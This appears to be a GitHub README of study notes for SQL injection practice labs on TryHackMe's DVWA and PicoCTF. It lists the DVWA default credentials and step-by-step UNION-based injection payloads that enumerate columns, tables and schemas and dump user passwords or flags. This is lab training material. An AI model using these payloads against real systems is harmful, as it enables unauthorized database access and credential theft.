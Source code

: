 # TryHackMe.com signup
https://tryhackme.com/signup
## TryHackMe SQL Injection room
https://tryhackme.com/r/room/sqlinjectionlm
## TryHackMe DVWA Room
https://tryhackme.com/r/room/dvwa
### DVWA Username and Password
username: admin
password: password
### 1: Adjust DVWA Security
Click on the DVWA Security Button at the bottom-left, then set the security to 'low', then click on 'Submit'.
### 2: Click on the SQL Injection button on the side menu
The button that isn't labelled "Blind".
### 3: Follow these steps to perform the UNION-based SQL injection attack
```
'
```
1 This confirms that there is SQL injection potential on the app, and it also identifies the DBMS system (MySQL)
```
' UNION SELECT null --
```
2 This lets us test if there is one column in the original statement. An error message is returned, so we know it isn't one column.
```
' UNION SELECT null, null -- 
```
3 An error message is not returned with two columns, so this is the number of columns going forward.
```
' UNION SELECT null,version() --
```
4 This is a function specific to MySQL and MariaDB, so we can confirm that this is the DBMS used here.
```
' UNION SELECT null,database() --
```
5 This lets us ID the name of the current database.
```
' UNION SELECT null, table_name from information_schema.tables where table_schema = 'dvwa' -- 
```
6 This lets us return all of the tables in the current database. Note that this syntax is specific to MySQL / MariaDB.
```
' UNION SELECT null, column_name from information_schema.columns where table_schema = 'dvwa' AND table_name='guestbook' -- 
```
7 This allows us to get column names for individual tables.
```
' UNION SELECT null, column_name from information_schema.columns where table_schema = 'dvwa' AND table_name='users' -- 
```
8 And this lets us get the columns for the other table
```
' UNION SELECT user,password from users -- 
```
9 And finally, we use SQL injection to get web app credentials for other users

# PicoCTF Challenges
## More SQLi (UNION SELECT SQL injection)
https://play.picoctf.org/practice/challenge/358?category=1&page=1&search=sql
### Completion Guide
```
Algiers' UNION SELECT null, null, null -- 
```
1 This lets us determine what tables exist in the database
```
Algiers' UNION SELECT null, null, name FROM sqlite_master WHERE type='table' -- 
```
2 This lets us determine which tables exist in our current database
```
Algiers' UNION SELECT null, null, name FROM PRAGMA_table_info('more_table') -- 
```
3 This lets us determine which columns exist in our target table "more_table"
```
Algiers' UNION SELECT null, null, flag FROM more_table -- 
```
4 This lets us get the flag column contents from the more_table table.

#### YouTube walkthrough
https://youtu.be/OLyKnDLuPLs

## SQLiLite (SQL Injection Login Bypass)
https://play.picoctf.org/practice/challenge/304?page=1&search=sql
#### YouTube walkthrough
https://youtu.be/39ExvhlIay4

